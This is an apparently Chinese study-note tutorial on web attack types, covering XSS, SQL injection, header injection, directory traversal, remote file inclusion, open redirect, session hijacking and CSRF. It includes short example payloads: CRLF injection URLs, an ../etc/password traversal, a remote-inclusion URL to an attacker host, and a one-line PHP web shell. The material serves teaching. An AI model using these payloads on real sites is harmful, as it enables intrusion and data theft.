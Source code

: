 ### web攻击模式
#### 1、 主动攻击
主动攻击是指攻击者通过直接访问Web应用，把攻击代码传入的攻击模式。该攻击针对服务器上的资源，因此前提是要攻击者能够访问服务器上的资源。常见的有sql注入攻击和OS命令注入攻击。
#### 2、 被动攻击
指攻击者设计圈套诱导用户触发攻击动作，从而利用用户的操作已经身份对web服务器发动间接的攻击。

具体步骤：
1、诱导用户触发已经设置好的陷阱，而陷阱启动发送已嵌入攻击代码的HTTP请求。
2、当用户掉入设计的陷阱后，他的浏览器或邮件客户端就会触发这个陷阱。
3、浏览器发送含有攻击代码的HTTP请求到web服务器，运行攻击代码。
4、执行攻击代码后，可能会导致用户重要的Cookie以及其他个人信息重要被窃。最典型的攻击模式就是跨站脚本攻击和跨站点请求伪造。

![image](http://zff-img.lshwn.cn//TuJieHttp/11-1.png)


### 输出转义不完全的攻击方式
- 客户端验证
- 服务端验证
  - 输入值的验证
  - 输出值的转义
  
虽然可以用JavaScript在客户端进行校验，但是客户端的校验不适合作为安全防范的对策，而仅仅是起到提高UI体验的作用。  

Web 应用端输入值验证通常是指检查是否是符合系统业
务逻辑的数值或检查字符编码等预防对策。
从数据库或文件系统、HTML、邮件等输出Web 应用处理的数据之际,针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传人的攻击代码，而给输出对象带来损害。

#### 利用该漏洞的攻击方式

1、 跨站脚本攻击（XSS）
跨站脚本攻击( Cross-Site Scripting,XSS) 是指通过存在安全漏洞的Web 网站注册用户的浏览器内运行非法的HTML 标签或JavaScript进行的一种攻击。动态创建的HTML 部分有可能隐藏着安全漏洞。
影响点。

- 利用虚假输入表单骗取用户的个人信息。
- 利用非法脚本盗取用户的Cookie值，从而伪造身份，执行恶意的操作。
- 显示虚假信息。


2、Sql注入攻击
在web请求中加入攻击代码，导致web应用程序执行那段恶意的sql语句。该攻击直接威胁到数据库，会导致个人信息的泄露、篡改等安全问题。
影响点
- 非法查看或篡改数据库内的数据
- 规避认证（如用户登录验证）
- 执行和数据库服务器业务相关的程序

利用用户的输入且不执行相关的转义操作，直接把输入的值当做查询条件写入sql语句中，就会出现sql注入攻击的安全漏洞。

3、OS命令注入攻击

	通过HTTP请求在web服务器执行非法的操作系统命令。通常就是让web服务器执行非法的shell脚本操作，来达到攻击的目的。

4、http首部注入攻击
	
	攻击者在http响应首部字段内插入换行符，并且添加任意的响应字段或主体，属于被动攻击。

方式：
url后添加换行符（%0D%0A）伪造字段名：字段值 来达到攻击的效果。

访问http://www.exampel.com/?id=2
```
location:http://www.exampel.com/?id=2
```
访问攻击url http://www.exampel.com/?id=2%0D%0ASet-Cookie:+UID=1234
```
location:http://www.exampel.com/?id=2
Set-Cookie: UID=1234
```
当然也可以影响显示的主体
url http://www.exampel.com/?id=2%0D%0ASet-Cookie:+UID=1234%0D%0%0D%0<html>尼玛</html><!--
```
location:http://www.exampel.com/?id=2
Set-Cookie: UID=1234
%0D%0A
<html>尼玛</html><!--(原来的页面就被注释掉了)
```
影响点
	
- 设置任何Cookie信息
- 重定向到任意url
- 显示任意的主体

5、邮件首部注入攻击

6、目录遍历攻击

对服务器上原本不公开的目录进行非法访问，通常的做法就是利用url中的相对路径去恶意访问机密文件。
合法访问的文件
```
http://example.com/read.php?logo=001.png
```
非法访问
```
http://example.com/read.php?logo=../../etc/password
```
7、远程文件包含攻击
远程文件包含漏洞是指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的URL 充当依赖文
件，让脚本读取之后，就可运行任意脚本的一种攻击。

攻击请求
```
http://example.com/read.php?mod=http://nima.com/cmd.php.cmd=ls
```
然后在自己的服务器上准备了一段攻击代码
```
<? system($_GET['cmd]) ?> 
```
这样攻击者就可以在自己的服务器上对目标服务器执行指定的OS命令了。


### 因web设置或者设计上的一些缺陷引发的安全问题

#### 强制浏览
对一些非公开的文件（涉及到权限的），通过非法的手段进行浏览。
造成的影响

- 泄露用户个人重要的信息
- 泄露原本需要访问权限才可以查阅的信息内容
- 泄露未公开的文件


#### 不正确的消息处理

1、Web应用抛出的错误消息
 举例说明：
 登录界面用户输入账号密码没有通过验证时，不需要做在输入账号有误时提示『帐号不存在』，帐号正确而密码错误时提示『密码不正确』等，而是统一提示『密码不正确』。不然会暴露给攻击者暴露太多的信息，增加账号被盗的风险。

2、数据库等系统抛出的错误消息
执行查询时，sql报错，直接将报错信息显示到界面上，这样就可能暴露数据库以及查询脚本的信息。

3、开放重定向

开放重定向是一种对指定的任意URL 作重定向跳转的功能。而于此功能相关联的安全漏洞是指，假如指定的重定向URL到某个具有恶意的Web网站,那么用户就会被诱导至那个Web网站。

```
//正常的重定向
http://taobao.com?redirect=http://www.tmail.com

//攻击者篡改的重定向
http://taobao.com?redirect=http://www.nima.com
```

### 因session管理疏忽引发的安全漏洞
session是用来管理用户的状态的必备功能，如果出现漏洞，就会导致用户的认证状态被窃取。

#### session劫持

攻击者通过某种方式拿到了用户的session ID,并用其伪装成用户，做一些非法的操作从而达到攻击的目的。session ID 中记录客户端的Cookies等信息，服务端会将Session ID 与认证状态进行一对一匹配管理。

攻击者获得session ID 的方式
- 通过非正规的方法推测session ID
- 通过窃听或XSS攻击盗取Session ID
- 通过会话固定攻击强行获取Session ID

攻击案例图：

![image](http://zff-img.lshwn.cn//TuJieHttp/11-2.png)


#### session 固定攻击
强制用户使用攻击者指定的session ID, 属于被动攻击。
案例图：
![image](http://zff-img.lshwn.cn//TuJieHttp/11-3.png)

#### 跨站点请求伪造
跨站点请求伪造( Cross-Site Request Forgeries,CSRF) 攻击是指攻击者通过设置好的陷阱,强制对已完成认证的用户进行非预期的操作，属于被动攻击。

案例图：

![image](http://zff-img.lshwn.cn//TuJieHttp/11-4.png)

当用通过的认证的用户访问含有攻击者部署恶意代码的留言网页后，会自动触发img标签中的http请求，执行评论操作，添加『你好』评论。